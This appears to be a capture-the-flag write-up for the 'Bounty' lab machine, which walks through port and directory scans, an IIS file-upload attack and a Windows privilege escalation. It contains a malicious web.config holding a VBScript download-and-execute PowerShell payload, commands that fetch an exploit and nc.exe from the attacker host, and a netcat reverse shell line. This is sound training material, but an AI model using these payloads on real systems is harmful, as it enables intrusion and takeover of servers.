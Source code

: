 # Bounty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.240     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:57 EDT
Nmap scan report for 10.129.85.240
Host is up (0.012s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

This is a pretty old machine AND its running Windows, so there's probably some kind of IIS exploit here.

### File Upload

The web application just shows an image of a wizard:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

A quick check on the requests reveals this is running Microsoft-IIS/7.5.

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

We can run a quick `gobuster` scan with `aspx,html,txt` extensions, and find a few files.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.240/ -t 100 -x aspx,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.240/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,txt,aspx
[+] Timeout:                 10s
===============================================================
2023/05/06 09:00:00 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 0]
```

The ASPX page was a simple file upload.&#x20;

<figure><img src="../../../.gitbook/assets/image (36) (5).png" alt=""><figcaption></figcaption></figure>

I tried to upload an ASPX reverse shell, but it gives me an Invalid File error.

<figure><img src="../../../.gitbook/assets/image (37) (6).png" alt=""><figcaption></figcaption></figure>

This can be bypassed via NULL byte by appending `%00.jpg` to the end of the filename in Burp.

<figure><img src="../../../.gitbook/assets/image (42) (8).png" alt=""><figcaption></figcaption></figure>

However, when trying to view the file at `/UploadedFiles/rev.aspx`, it returns an error instead of a shell.

<figure><img src="../../../.gitbook/assets/image (30) (8).png" alt=""><figcaption></figcaption></figure>

So uploading ASPX files doesn't work. But how about `web.config` files? It is possible to upload one that has VBScript embedded within it to execute commands. This is because we can potentially overwrite the existing `web.config` file and replace it with ours that executes commands.

Here's the file I used:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')")
%>
```

This would download a simple Powershell reverse shell from our device. We can directly upload the `web.config` file without bypassing any file extension checks. Afterwards, visiting the `/UploadedFiles/web.config` directory would make the machine download and run the script, giving us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### MS15-051

I did a quick check on the machine's OS by running `systeminfo`.

```
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/6/2023, 9:04:11 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,575 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,587 MB
Virtual Memory: In Use:    508 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.85.240
                                 [02]: fe80::4112:6417:a55f:fe64
                                 [03]: dead:beef::4112:6417:a55f:fe64
```

This was running Windows Datacenter 2008 and had no hotfixes applied. This means it is vulnerable to MS15-051.&#x20;

{% embed url="https://github.com/hfiref0x/CVE-2015-1701/tree/master/Compiled" %}

We can download the exploit and `nc.exe` to the machine via Powershell and run `exploit.exe` like this:

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/ms15-051x64.exe', 'C:\users\merlin\desktop\exploit.exe')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/nc64.exe','C:\users\merlin\desktop\nc.exe')
C:\users\merlin\desktop\exploit.exe "C:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.13 4444"
```

This would give us a reverse shell as SYSTEM.

<figure><img src="../../../.gitbook/assets/image (34) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
